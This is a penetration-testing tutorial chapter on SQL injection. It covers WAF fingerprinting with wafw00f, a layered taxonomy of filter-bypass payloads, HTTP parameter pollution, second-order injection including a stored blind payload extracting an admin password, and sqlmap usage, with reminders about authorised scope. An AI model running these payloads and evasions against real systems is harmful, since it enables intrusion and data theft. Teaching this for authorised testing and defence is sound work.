







This is Chapter 3 of the Injection notebook — Notebook 23. Chapter 1 taught you what a
database is and how to *discover* an injection point; Chapter 2 taught you how to *exploit*
one with UNION, error-based, and blind techniques once you had a clean, reflective sink.
Both of those chapters quietly assumed a friendly target: no filtering, no firewall, and a
parameter whose value flows straight into a query on the very request you send it on. Real
targets are rarely that polite. This chapter removes the training wheels.

Three things stand between a working lab payload and a real finding, and each gets a deep
treatment here. First, a **web application firewall (WAF)** sits in front of most public
apps and drops or challenges anything that looks like an attack — so you have to understand
how it inspects a request and how to reshape a payload so it still means the same thing to
the database but no longer matches the firewall's signatures. Second, some of the most
valuable SQLi lives in **second-order (stored)** flows, where your payload is safely stored
on one request and only becomes dangerous when a *different* code path reads it back and
concatenates it into a query — these bugs are invisible to a scanner testing one parameter
at a time. Third, doing all of this by hand is slow, so professionals lean on **sqlmap**,
and using it well (not just `-u URL --dump`) is a skill in itself: tuning detection, driving
it through a captured request, feeding it tamper scripts, and reading its reasoning.

Everything in Chapter 5 of the Foundations track still governs: you operate only inside an
authorised scope, you extract the *minimum* needed to prove impact, and you treat destructive
primitives (`--os-shell`, file writes, `DROP`) as things you demonstrate carefully and only
with explicit permission. WAF evasion and automation make you faster and louder — that is
exactly why the discipline matters more here, not less.

## Why This Matters

A payload that works in a PortSwigger lab and fails on a real bug-bounty target is the single
most common wall new hunters hit. They confirm SQLi conceptually, fire a textbook
`' UNION SELECT ...`, get a `403 Forbidden` from Cloudflare or Akamai, and conclude the bug
"doesn't work." It almost always does — the *database* would happily run their query; the
*firewall* just refused to forward the request that carried it. Learning to bypass the WAF is
what converts a dead-looking parameter into a Critical. On the triage side, the reverse is
true: a report that shows a payload sailing through the customer's WAF is far more convincing
than one that only works with the firewall disabled, because it proves the deployed defence is
insufficient.

Second-order injection matters because it is where the money often hides. The obvious,
first-order parameters on a mature target have usually been fuzzed to death by a hundred other
hunters and by the vendor's own scanners. The username you register with, the display name you
set, the address you save — these get stored and later reflected into admin dashboards,
reporting queries, and background jobs that no automated scanner correlates. That is exactly
where a hand-crafted stored payload finds virgin attack surface.

And sqlmap matters because time is the scarce resource. Blind, boolean, one-bit-at-a-time
extraction across a WAF is thousands of requests; nobody does that by hand on a real target.
But sqlmap is a scalpel, not a hammer — pointed carelessly it is loud, destructive, and
frequently wrong; driven skilfully it confirms and extracts in minutes what would take you a
day. This chapter teaches the skill, not the one-liner.



## Part 1: What a WAF Actually Is and How It Inspects a Request

Before you can bypass a firewall you have to model it accurately, and most people model it
wrong. A WAF is not "a thing that blocks SQL injection." It is a request-inspection pipeline —
usually a reverse proxy — that sits between the client and the origin application and applies a
set of rules to each HTTP request (and sometimes response) before deciding to **pass**,
**block**, **challenge** (CAPTCHA/JS), or **log** it. The two dominant models you will meet in
the wild are:

- **Rule/signature-based** engines like **ModSecurity** running the **OWASP Core Rule Set
  (CRS)**. These match request data against a large library of regular expressions and
  patterns, each contributing to an **anomaly score**; when the accumulated score crosses a
  threshold (default 5 in CRS "blocking mode") the request is blocked. This is the model to
  understand deeply because it is open source, self-hostable, and the logic behind many
  commercial products.
- **Cloud/managed** WAFs — Cloudflare, Akamai, AWS WAF, Imperva, F5, Fastly — which layer
  signatures with reputation, rate-limiting, bot scoring, machine-learning classifiers, and
  managed rule updates. You cannot read their rules, so against these you work **empirically**:
  probe, observe, and infer the filter's shape from its responses.

The single most important concept for bypassing any of them is **normalisation** (also called
canonicalisation). Before a rule engine matches, it typically transforms the input into a
canonical form — URL-decoding percent-encoding, lowercasing, stripping some comments,
collapsing whitespace — so that `SELECT`, `select`, and `%53ELECT` all reach the matcher as the
same token. **Every WAF bypass is, at heart, an attack on the gap between how the WAF
normalises input and how the database parses it.** If you can find a transformation the
*database* understands but the *WAF* does not (or normalises differently), your payload passes
inspection and still executes. Hold that sentence in your head; the rest of this chapter is
variations on it.



**Where the gaps come from.** WAF normalisation is deliberately conservative — it cannot fully
parse SQL for every possible backend (MySQL, MSSQL, PostgreSQL, Oracle, SQLite each have their
own comment syntax, string functions, and quirks), so it approximates. The database, by
contrast, parses its own dialect exactly. That asymmetry is permanent and structural, which is
why WAF bypass is an endless cat-and-mouse rather than a solved problem: the WAF has to be
right about *every* dialect at once; you only have to be right about the *one* backend you are
actually hitting.

**Security relevance (both sides).** A WAF is a *compensating control*, not a fix. **Blue team
usage:** deploy it to buy time and to catch opportunistic, un-obfuscated scanners — never as a
substitute for parameterised queries. **Red team / bug-bounty usage:** when you land a bypass,
that is itself part of the impact story — it demonstrates the deployed defence can be defeated,
which raises severity and is worth documenting in the report even though the root cause is the
injectable query behind it.

## Part 2: Fingerprinting the Filter Before You Fight It

Blindly throwing a list of bypass payloads at a target is slow and noisy. Professionals first
*characterise* the filter: identify which WAF (if any) is present, and — more importantly —
learn the specific shape of the filtering by probing. You are building a mental model of what
trips it and what does not.

**Step 1 — Identify the product.** Vendor WAFs leave fingerprints:

| Signal | Likely WAF |
| --- | --- |
| `Server: cloudflare`, `cf-ray` header, `__cf_bm` cookie | Cloudflare |
| `Server: AkamaiGHost`, `X-Akamai-*` | Akamai |
| `X-Amzn-*`, request-id headers, `AWSALB` | AWS WAF / ALB |
| `X-CDN: Imperva`, `X-Iinfo`, `incap_ses` cookie | Imperva Incapsula |
| `Server: BigIP`, `TS...` cookie, `BIGipServer` | F5 BIG-IP ASM |
| Generic `406 Not Acceptable` / `mod_security` in body | ModSecurity |

The community tool **wafw00f** automates this. It is a Python fingerprinter that sends a benign
request plus a couple of deliberately malicious ones and matches the responses (headers, cookies,
block-page bodies, status codes) against a signature database of ~150 WAFs.

```bash
# Install (Kali has it in repos; pipx keeps it isolated)
pipx install wafw00f            # or: sudo apt install wafw00f

wafw00f https://target.example.com -a     # -a = test ALL signatures, don't stop at first match
```

```text
                   ______
                  /      \
                 (  W00f! )
                  \  ____/
   ~ WAFW00F : v2.2.0 ~
[*] Checking https://target.example.com
[+] The site https://target.example.com is behind Cloudflare (Cloudflare Inc.) WAF.
[~] Number of requests: 6
```

**Step 2 — Map the filter empirically.** Product identification tells you the vendor, not the
tuning. The rules on a given site are configured by *that site's* admins, so you must probe.
Send progressively "more SQL-looking" inputs and watch where the response flips from 200 to 403:

```text
?id=1                          -> 200  (baseline)
?id=1'                         -> 200  (a lone quote is often allowed)
?id=1' OR '1'='1               -> 403  (boolean logic tripped a rule)
?id=1' OR 1=1                   -> 403
?id=1'/**/OR/**/1=1            -> 403  (comment-as-space still caught)
?id=1' || 1=1                   -> 200  (|| not in the ruleset — a gap!)
?id=1' OoR 1=1                  -> 200  (keyword mutation slipped through)
```

Each line is a datapoint. From this you infer: the filter matches the literal keyword `OR` and
some whitespace tricks, but does **not** match the `||` logical-OR operator, and its keyword
match is naive enough that a mutated `OoR` passes. In practice you would confirm each "pass"
actually *executes* against the DB, not merely that it wasn't blocked. **This probe-and-observe
loop is the entire craft** — the payload lists in the next parts are the vocabulary, but
fingerprinting the specific target's filter is the grammar.

**Bug-bounty note:** keep this probing *minimal and slow*. Firing a 10,000-payload WAF-bypass
wordlist at a program's production endpoint is a great way to get rate-limited, IP-banned, or
reported for abuse. A dozen surgical probes tell you more than a brute-force run, and respect the
program's rules of engagement.



## Part 3: The Bypass Taxonomy — Reshaping a Payload Without Changing Its Meaning

Every bypass technique is a way to write the *same* SQL so it survives the WAF's tokeniser. It
helps to organise them into layers, because a real bypass usually **stacks** several. We will
walk each layer with copy-pasteable payloads, always starting from the same canonical, blocked
statement so you can see the transformation:

> **Canonical (blocked) payload:** `' UNION SELECT username, password FROM users-- -`

### 3.1 Whitespace and comment obfuscation

WAFs frequently key on the literal space between keywords (`UNION SELECT`). Replace spaces with
anything the parser treats as a token separator:

| Substitute | Renders as | Notes / backend |
| --- | --- | --- |
| `/**/` | inline comment | Universal; the classic space replacement |
| `%09` `%0a` `%0b` `%0c` `%0d` | tab, LF, VT, FF, CR | All valid separators in most engines |
| `%a0` | non-breaking space | Works on some MySQL configs, often unfiltered |
| `+` | space (in URL-encoded body/query) | Query-string only |
| `/*!50000UNION*/` | MySQL version comment | Executes on MySQL >= 5.0.00; ignored elsewhere |

```sql
'/**/UNION/**/SELECT/**/username,password/**/FROM/**/users-- -
'%0aUNION%0aSELECT%0ausername,password%0aFROM%0ausers-- -
'/*!50000UNION*//*!50000SELECT*/username,password/*!50000FROM*/users-- -
```

The MySQL **version comment** `/*!...*/` is special and worth memorising: MySQL *executes* the
contents of `/*!...*/`, and `/*!50000...*/` executes only if the server version is >= 5.00.00.
To every other parser — and to many WAF normalisers — it looks like an ordinary comment and is
stripped or ignored, but MySQL runs it. That gap (comment to the WAF, code to the DB) is a
textbook exploitation of the normalisation asymmetry from Part 1.

### 3.2 Case and keyword mutation

Naive rules match `union` or `UNION` but not mixed case, and SQL keywords are case-insensitive:

```sql
' UnIoN sElEcT username,password FROM users-- -
```

Better rules lowercase first, defeating pure case tricks — so combine case with **keyword
splitting via comments** or **doubled keywords**. Some filters strip a keyword *once*
(non-recursively); if so, nesting the keyword inside itself survives:

```sql
' UNIunionON SELselectECT ...        -- filter strips inner 'union'/'select', leaving UNION/SELECT
' /*!UNION*/ /*!SELECT*/ ...
```

The `UNIunionON` trick works only against filters that do a single non-recursive removal of the
keyword — a real datapoint you would confirm during fingerprinting, not assume.

### 3.3 Encoding layers

The request travels through decoders; if the WAF decodes fewer layers than the stack behind it,
an extra encoding layer hides the payload from the WAF but is decoded before it reaches the DB.

| Encoding | `SELECT` becomes | When it helps |
| --- | --- | --- |
| URL-encode | `%53%45%4c%45%43%54` | WAF matches raw bytes, app URL-decodes |
| Double URL-encode | `%2553%2545...` | WAF decodes once, a downstream proxy decodes again |
| Unicode / overlong | `%u0053ELECT` | Legacy IIS/ASP normalisation quirks |
| Hex string literal | `0x53454c454354` | Replace a *string value* `'admin'` with `0x61646d696e` |
| `CHAR()` / `CONCAT` | `CHAR(83,69,76,...)` | Rebuild a filtered string from char codes |

Encoding the *keyword* is unreliable (most apps don't re-decode SQL keywords), so encoding
shines for **string values inside the payload**, where a filter blocks the literal `'admin'` or a
quote character. Replacing the string with a hex literal removes the quotes entirely:

```sql
-- Instead of:  ' OR username='admin'-- -
' OR username=0x61646d696e-- -          -- MySQL: 0x... is a string/blob literal, no quotes needed
' OR username=CHAR(97,100,109,105,110)-- -   -- portable char-code rebuild
```

### 3.4 Logical and mathematical equivalents

If `OR`/`AND` are filtered, use operator forms or arithmetic that mean the same thing:

| Blocked | Equivalent | Backend |
| --- | --- | --- |
| `OR 1=1` | `\|\| 1=1` | MySQL (non-ANSI), many |
| `AND 1=1` | `&& 1=1` | MySQL |
| `OR 1=1` | `OR 2>1`, `OR 'a'='a'`, `OR 1 LIKE 1` | Any — dodges the literal `1=1` |
| `=` | `LIKE`, `RLIKE`, `<>` negation, `BETWEEN` | Any |
| `SLEEP(5)` | `BENCHMARK(5000000,MD5(1))` | MySQL time-delay alt |
| `SUBSTRING` | `MID`, `SUBSTR`, `LEFT`/`RIGHT` | Dialect string alts |

```sql
' || (SELECT 1 FROM users WHERE username LIKE 0x61646d696e)-- -
```

### 3.5 Function and syntax alternatives

Blind extraction relies on a small set of functions; every one has synonyms, and knowing them
means a filtered function is never a dead end:

| Purpose | Primary | Alternatives (MySQL) |
| --- | --- | --- |
| Delay | `SLEEP(5)` | `BENCHMARK(...)`, `GET_LOCK(...)`, heavy `RLIKE` regex |
| Substring | `SUBSTRING(x,1,1)` | `MID(x,1,1)`, `SUBSTR`, `LEFT(x,1)` |
| Concatenate | `CONCAT(a,b)` | `CONCAT_WS`, `a\|\|b` (PG/Oracle), `+` (MSSQL) |
| ASCII value | `ASCII(x)` | `ORD(x)`, `HEX(x)` |
| Current DB | `database()` | `schema()`, `current_database()` (PG) |
| Comment to EOL | `-- -` | `#`, `/*` (unterminated on some backends) |

**Putting it together — a stacked bypass.** A realistic evasion combines layers. Starting from
the blocked canonical payload, a payload tuned against a MySQL backend behind a naive
signature filter might become:

```sql
'/*!50000UnIoN*/%0a/*!50000SeLeCt*/%0ausername,password%0a/*!50000FrOm*/%0ausers%23
```

That single string uses version comments (3.1), mixed case (3.2), URL-encoded newlines as
separators (3.3), and `%23` (`#`) as the comment terminator (3.5) — four layers stacked so the
firewall sees comments and encoded bytes while MySQL sees a clean UNION query.

## Part 4: HTTP-Layer Evasion — Attacking the Plumbing, Not the Payload

Sometimes the payload can't be reshaped enough, so you attack *how the request is delivered*.
These techniques exploit differences between how the WAF and the origin parse HTTP itself.

**HTTP Parameter Pollution (HPP).** Send the same parameter twice. WAFs and app servers disagree
on which value "wins": some inspect the first, some the last, some concatenate. If the WAF
inspects the first occurrence and the app uses the last (or concatenates), you split the payload:

```http
GET /item?id=1&id=' UNION SELECT username,password FROM users-- - HTTP/1.1
```

| Platform | Takes which `id`? |
| --- | --- |
| PHP / Apache | last |
| ASP.NET / IIS | concatenated: `1,' UNION...` |
| JSP / Tomcat | first |
| Python (Flask) | first |

Some backends *concatenate* polluted parameters with a comma, which lets you literally split a
keyword across two parameters so neither alone matches a signature (`?a=1/*&a=*/UNION...`).

**Verb and content-type games.** A WAF ruleset may only inspect query strings, or only
`application/x-www-form-urlencoded` bodies. Moving the parameter to a place the ruleset ignores
can slip past it:

- Switch `GET` to `POST` (or vice-versa) — some rules are method-scoped.
- Change `Content-Type` to `application/json`, `multipart/form-data`, or `text/xml` if the app
  accepts it but the WAF only parses urlencoded bodies.
- Wrap the value in a JSON structure the WAF doesn't descend into.

**Chunked transfer encoding.** Send the body with `Transfer-Encoding: chunked` and split the
payload across chunk boundaries. A WAF that reassembles chunks poorly, or doesn't buffer the
whole body, may inspect an incomplete view while the origin reassembles the full malicious body.

**Oversized bodies / null bytes / multipart boundary tricks.** Some WAFs stop inspecting after
N kilobytes for performance; padding a POST body with a large benign prefix can push the payload
past the inspection window. Others mishandle `multipart/form-data` boundary parsing or an
injected null byte (`%00`) that truncates the WAF's view but not the app's.



**IR / blue-team note:** HTTP-layer evasions are exactly why defence-in-depth matters. A WAF that
only inspects the query string, an app that reads the body, and a database account with broad
privileges compound into an exploitable chain even though each component "looks fine" alone. On
the detection side, polluted parameters, unusual `Transfer-Encoding`, and mismatched
`Content-Type` are all loggable anomalies worth alerting on.

## Part 5: A Disciplined Method for Building a Bypass From Scratch

Payload lists go stale; the *method* does not. When you face an unknown filter, work this loop:

1. **Establish a baseline.** Send a benign request; note status, length, timing, and body. This
   is your control.
2. **Find the boundary.** Add the smallest SQL-ish token (a quote, then `OR`, then `1=1`) until
   the response flips to a block. Now you know *roughly* what trips it.
3. **Isolate the trigger.** Binary-search the payload: remove half, see if the block persists.
   Determine whether it is the keyword, the operator, the whitespace, or the quote that matches.
4. **Substitute one layer.** Swap only the triggering element (comment-for-space, `||` for
   `OR`, hex for the string). Re-send. Did the block clear?
5. **Confirm execution, not just passage.** A 200 means "not blocked," not "worked." Verify the
   payload actually altered the query — a boolean differential, a time delay, an extra row.
6. **Stack minimally.** Add only the layers you *need*. Every extra transformation is more
   fragile and more likely to break the SQL syntax itself.
7. **Record what worked.** The working bypass for one endpoint often works for the whole app;
   note it so you don't re-derive it.

This is the same probe-observe-refine discipline from Chapter 1's discovery methodology, now
aimed at the filter instead of the query. **The goal is the minimal reliable bypass, not the
cleverest one** — a fragile five-layer monster that works once is worse than a two-layer payload
you can reuse across the target.

## Part 6: Second-Order (Stored) SQL Injection — The Payload That Waits

Everything so far assumed **first-order** injection: the request that carries the payload is the
request that triggers the vulnerable query. **Second-order** (also called *stored*) SQL injection
breaks that assumption and is one of the most under-tested, high-value bug classes on mature
targets.

Here is the mechanism. On **request A**, you submit input that the application **stores safely** —
often via a parameterised `INSERT`, so nothing bad happens and no scanner flags it. Later, on
**request B** (a different endpoint, sometimes triggered by a different user such as an admin), the
application **reads that stored value back** and — this is the bug — **concatenates it into a new
query without re-sanitising it**, because the developer trusted data that "came from our own
database." Your payload, dormant since request A, now executes.



**Why parameterisation on write doesn't save you.** The `INSERT` on request A can be perfectly
parameterised and still store a malicious *string*. Parameterisation protects the query it is
applied to; it does not sanitise the *data* for some *future* query that builds SQL by string
concatenation. The vulnerability lives entirely in the read/reuse sink, and the fix is to
parameterise *that* query too — not to "clean" the data on the way in.

**Why scanners miss it.** An automated scanner testing the registration form sends a payload and
sees a normal `200 Created` with no error and no reflected difference — request A is invisible.
The scanner never correlates that stored value with a completely different admin endpoint hit
minutes later by a different session. This decoupling of *cause* and *effect* across requests,
endpoints, and even users is precisely why second-order bugs survive on heavily-scanned targets,
and why they reward manual hunters. **Bug-bounty angle:** think about every place your data is
*displayed back* — profile pages, admin user lists, audit logs, exported reports, "recently
viewed" widgets, notification emails — and ask "does a query here concatenate my stored value?"

### 6.1 Finding the write sink and the read sink

Second-order hunting is a two-step trace:

1. **Seed** unique, syntactically-loud markers into every field that gets stored: usernames,
   display names, addresses, comments, filenames, support-ticket bodies. Use a distinctive quote
   payload per field so you can tell which one fires: `zz1'-- -`, `zz2'-- -`, etc. (canary
   values you can grep for).
2. **Walk the app** and trigger every feature that *reads* stored data: view your profile, have
   an admin view the user list, run a report, trigger an export, change a related setting. Watch
   for an error, a broken page, a delay, or a differential that indicates your dormant quote just
   broke a query on the read path.

The canary approach matters: because the effect can appear on a page you didn't directly request
(an admin dashboard), a database error surfacing `zz3'` tells you *both* that you have injection
*and* which stored field carried it.

### 6.2 Worked example — profile update to blind extraction

Consider a classic flow. Registration stores your username via a parameterised insert. A separate
"update your account" feature runs (in vulnerable pseudo-code):

```php
// VULNERABLE read-path sink — username re-used by string concatenation
$sql = "UPDATE users SET last_login=NOW() WHERE username='" . $row['username'] . "'";
$db->query($sql);
```

You register with a username crafted so that when it is later concatenated, it becomes a blind
boolean payload:

```text
Registration username:
    x' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username=0x61646d696e)=0x61-- -
```

On registration this is stored verbatim (parameterised insert — no error). When the update sink
runs, the concatenated query becomes a conditional that either updates or errors/does-nothing
depending on whether the admin's first password character is `a` (0x61). You now have a
**time/boolean oracle reachable through second-order injection** and can extract data one
character at a time exactly as in Chapter 2 — the only difference is that the payload is delivered
via the stored username rather than a live parameter. (In practice you'd use a time-based variant,
`... AND IF(<condition>,SLEEP(3),0) ...`, so the effect is observable even when the read path
returns nothing to you.)

**Practical constraint — length and character limits.** Stored fields often cap length or strip
characters, so second-order payloads must be compact. Hex literals (no quotes), short function
synonyms (`MID` over `SUBSTRING`), and staging the extraction help. This is exactly why the
function-alternative table in Part 3 matters here too.

## Part 7: sqlmap From Zero — What It Is and How It Thinks

Doing blind, WAF-evaded, second-order extraction by hand is thousands of requests. **sqlmap** is
the open-source tool that automates detection and exploitation of SQL injection, and it is the
single most important tool in this chapter. As per the tool-from-scratch rule, we build it up
from nothing.

**What it is.** sqlmap is a Python command-line tool that, given a way to reach a parameter, will
(a) *detect* whether that parameter is injectable, (b) *fingerprint* the backend DBMS, (c)
determine which injection *techniques* work (it labels them **B**oolean, **E**rror, **U**nion,
**S**tacked, **T**ime, and **I**nline), and (d) *exploit* the confirmed injection to enumerate
databases, tables, columns, and rows — and, where the DBMS and privileges allow, read/write files
and get an OS shell. It supports MySQL, PostgreSQL, MSSQL, Oracle, SQLite, and ~30 other
backends, each with dialect-specific payloads.

**How it thinks — the detection engine.** This is the part people skip and then misuse the tool.
For each parameter, sqlmap injects a series of test payloads and compares each response against a
baseline using several heuristics simultaneously:

- **Boolean/content:** does a `AND 1=1` response differ from a `AND 1=2` response? It compares
  page similarity ratios, not just status codes.
- **Error:** does a broken-syntax payload surface a database error string it recognises?
- **Time:** does a `SLEEP`-style payload measurably delay the response versus baseline?
- **UNION:** can it append a `UNION SELECT` with a matching column count and see its markers
  reflected?

The `--level` and `--risk` flags (Part 9) control how many payloads and *where* it injects (GET,
POST, cookies, headers) and how dangerous those payloads are. Understanding that sqlmap is a
*differential engine* explains its failure modes: on a page whose content changes every request
(CSRF tokens, timestamps, ads), the boolean heuristic gets confused, and you must help it with
`--string`/`--not-string` or `--technique`.



**Install on Kali.** sqlmap ships with Kali, but keep it current — payloads and tamper scripts
improve constantly:

```bash
sqlmap --version                       # already installed on Kali
# Latest from source (recommended):
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git ~/tools/sqlmap
python3 ~/tools/sqlmap/sqlmap.py --version
# Optional convenience alias:
echo "alias sqlmap='python3 ~/tools/sqlmap/sqlmap.py'" >> ~/.zshrc && source ~/.zshrc
```

## Part 8: Driving sqlmap Properly — Requests, Not Just URLs

The number-one beginner mistake is `sqlmap -u "http://site/?id=1" --dump`. That works on a lab
but fails on anything real, because real requests carry authentication cookies, CSRF tokens, JSON
bodies, and custom headers that a bare `-u` throws away. The professional workflow is to **capture
a real, authenticated request and feed the whole thing to sqlmap.**

**Capture with Burp/browser, save as a request file.** In Burp, right-click a request →
*Copy to file* (or save the raw request); or capture with your browser's dev tools. You get a
file like `req.txt`:

```http
POST /account/search HTTP/1.1
Host: target.example.com
Cookie: session=8f3a...; csrftoken=b91c...
Content-Type: application/x-www-form-urlencoded
X-CSRF-Token: b91c...

query=laptop&category=3
```

Then point sqlmap at the file with `-r`, and mark the parameter to test with `*` (or let it test
all):

```bash
sqlmap -r req.txt -p query --batch
# -r  : read the full HTTP request from file (keeps cookies, headers, method, body)
# -p  : test only the 'query' parameter (faster, quieter than testing everything)
# --batch : accept default answers to all prompts (non-interactive)
```

Key flags for *reaching* the parameter correctly:

| Flag | Purpose |
| --- | --- |
| `-u URL` | Target URL (GET params inline) |
| `-r FILE` | Full raw HTTP request from a file — the professional default |
| `-p PARAM` | Restrict testing to named parameter(s) |
| `--data "..."` | POST body (when not using `-r`) |
| `--cookie "..."` | Send cookies (auth) |
| `--headers "H: v"` | Extra headers |
| `--method PUT` | Force HTTP method |
| `--csrf-token NAME` `--csrf-url URL` | Auto-fetch and attach a fresh CSRF token each request |
| `--random-agent` | Rotate a realistic browser User-Agent |
| `--proxy http://127.0.0.1:8080` | Route every request through Burp for inspection |

Routing sqlmap **through Burp** (`--proxy`) is invaluable: you *see* exactly what it sends, which
demystifies the tool and lets you copy a working payload into a manual PoC for your report.

## Part 9: Tuning Detection — --level, --risk, --technique, --dbms

Out of the box sqlmap is conservative to stay fast and safe. On a stubborn target you turn the
dials — deliberately, because each one costs requests and noise.

| Flag | Default | What raising it does |
| --- | --- | --- |
| `--level 1..5` | 1 | 1: GET/POST values. 3: also tests **cookies**. 5: also tests **User-Agent, Referer, Host** and more payload variants. Higher = more places tested, many more requests. |
| `--risk 1..3` | 1 | 1: safe payloads. 2: adds heavy time-based (`OR`-based). 3: adds `OR`-based boolean and **potentially data-modifying** payloads (`UPDATE`). Use 3 only with permission. |
| `--technique BEUSTQ` | all | Restrict to specific techniques: **B**oolean, **E**rror, **U**nion, **S**tacked, **T**ime, inline **Q**uery. E.g. `--technique=BT` for blind-only. |
| `--dbms mysql` | auto | Skip fingerprinting; force the backend so it only sends relevant payloads (faster, quieter). |
| `--string "Welcome"` | — | Tell sqlmap the string that marks a *true* boolean response (fixes noisy pages). |
| `--not-string "error"` | — | The inverse marker. |
